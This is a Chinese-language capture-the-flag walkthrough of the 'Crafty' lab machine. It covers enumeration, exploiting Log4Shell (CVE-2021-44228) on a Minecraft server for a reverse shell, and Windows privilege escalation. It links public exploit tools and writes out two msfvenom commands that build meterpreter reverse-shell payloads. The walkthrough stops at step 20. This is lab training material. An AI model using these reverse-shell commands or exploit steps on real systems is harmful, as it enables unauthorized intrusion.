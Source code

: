 Crafty Level:Easy
===
尋找user.txt
---
    1.執行Nmap蒐集資訊
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcb9fa95-f96f-4688-88d0-ef140cf168a6)

    2.目錄列舉，發現一個js資料夾是403

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f5b4d0b6-d52e-48ea-9c03-ed9bf1a63722)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/711cd664-28f2-46c3-b9ab-72df376aa95f)

    3.在使用dirbuster列舉，發現js資料夾裡面有main.js

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5673fc1-5556-4cf8-ad8b-2bd90a58b769)

    4.開啟main.js，有一段內容引人注目
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a3c42d5c-3937-4ac7-982e-0e4bf796c188)

這段程式碼主要功能是取得和顯示一個遊戲伺服器上的線上玩家數量。大概指的是mc伺服器，它透過定期查詢一個外部API來實現這一點，裡面運用了**updatePlayercount函數，**先是向https://api.bybilly.uk/api/players/${ip}/ ${port}發送一個GET請求，查詢指定IP和端口的遊戲伺服器的在線玩家數量，如果返回的是online，則顯示在.sip裡面，如果不返回online，說明斷線了，然後會在.playercount中顯示相應的信息，並使用setInterval設置一個定時器，每60秒調用一次updatePlayercount函數以定期更新玩家數量，裡面的是25565端口值得是mc的默認端口，這次利用log4j的poc來反彈shell，這次利用的是CVE-2021-44228編號的poc（也稱為Log4Shell漏洞）

    5.找到Log4Shell POC，執行前先下載jdk並變更檔名為jdk1.8.0_20
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc)

[jdk](https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/216407a1-9d28-4028-87dd-07ea685ce016)

    6.修改poc.py，因系統為Windows所以改成cmd.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6fd8f14f-7aa9-4cac-afb0-e598f6603cd4)

    7.執行poc.py，會產生一組LDAP位置

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/066b4a78-ee68-4dd8-9260-763098dc1745)

    8.下載mc工具
[mc工具](https://github.com/ammaraskar/pyCraft)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b7d546bd-d42f-483b-81d7-24f192eb4cc6)

    9.執行mc工具，出現連接後輸入LDAP位置
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db107bb6-81f3-4335-9ff5-21535330d8af)

    10.log4j會出現200，nc就會成功反彈shell

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/908cdb72-8770-4997-bf80-6b79d9b29319)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/23f5dcf6-c18b-458d-8d54-4c19a9c83522)

    11.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e333a12-f6d2-49c3-ae1c-69e2aaae7af8)

尋找root.txt
---
    12.在plugins底下發現有一個.jar的檔案，需下載檢查內容

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9510f70e-68d6-4bef-91e8-24460b8e0326)

    13.使用msfvenom建立一個reverse shell
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o expl.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5ceb9f4-3f51-4d13-9321-191fc35e0a5a)

    14.使用msf建立reverse連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b4d6cdf8-2705-4eac-a4db-cf64ce8ae515)

    15.將製作好的reverse shell傳輸到Windows上

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e9bb9934-d1f5-40da-bd8c-68f47607fc59)

    16.執行expl.exe，msf會取得連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d4431f48-4295-47bc-b419-b62d84f61223)

    17.在msf上直接download .jar檔案

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/67d6a99c-5dbf-45e8-a894-a2cf8f93cb22)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db619987-8f13-4d72-8dc5-b8eb05c5974f)

    18.反編譯.jar檔檢視內容，發現一組很像密碼的字串

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/26564a79-7f1e-4637-8226-a375a26d0780)

    19.找到RunasCs工具
    
[RunasCs] (https://github.com/antonioCoco/RunasCs)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/2c95e33c-af3f-4ca2-bc25-cf753b06c891)

    20.使用msfvenom另外建立一個reverse shell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4246 -f exe -o exp2.exe

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/4392be79-8ed0-4349-b9ff-73f93da94669)
